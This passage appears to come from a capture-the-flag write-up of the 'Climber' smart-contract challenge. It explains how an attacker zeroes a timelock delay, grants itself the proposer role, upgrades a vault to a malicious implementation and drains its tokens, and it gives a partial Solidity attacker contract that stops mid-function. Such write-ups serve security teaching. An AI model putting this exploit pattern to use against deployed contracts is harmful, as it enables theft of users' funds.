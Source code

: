 5. Call the `drain` function on the upgraded vault to transfer all tokens to the recovery address.

This attack method allows the attacker to:

- Bypass the timelock delay
- Grant themselves the necessary roles
- Upgrade the vault to a malicious version
- Drain all tokens from the vault

All of these actions are performed in a single transaction, exploiting the order of operations in the `execute` function and the lack of proper access controls.

## Proof of Concept (PoC)

### Core Implementation

The core of the attack is implemented in the `ClimberAttacker` contract:

```solidity
contract ClimberAttacker {
    ClimberTimelock public timelock;
    address public vault;
    address public token;
    address public recovery;

    address[] public targets;
    uint256[] public values;
    bytes[] public dataElements;

    constructor(ClimberTimelock _timelock, address _vault, address _token, address _recovery) {
        timelock = _timelock;
        vault = _vault;
        token = _token;
        recovery = _recovery;
    }

    function attack() external {
        // Deploy the new implementation
        MaliciousVaultImplementation newImpl = new MaliciousVaultImplementation();

        // Prepare the malicious calls
        targets = new address[](4);
        values = new uint256[](4);
        dataElements = new bytes[](4);

        // Call 1: Update delay to 0
        targets[0] = address(timelock);
        values[0] = 0;
        dataElements[0] = abi.encodeWithSignature("updateDelay(uint64)", 0);

        // Call 2: Grant proposer role to this contract
        targets[1] = address(timelock);
        values[1] = 0;
        dataElements[1] = abi.encodeWithSignature("grantRole(bytes32,address)", PROPOSER_ROLE, address(this));

        // Call 3: Upgrade vault to malicious implementation
        targets[2] = vault;
        values[2] = 0;
        dataElements[2] = abi.encodeWithSignature("upgradeToAndCall(address,bytes)", address(newImpl), "");

        // Call 4: Schedule the operation and drain (this call)
        targets[3] = address(this);
        values[3] = 0;
```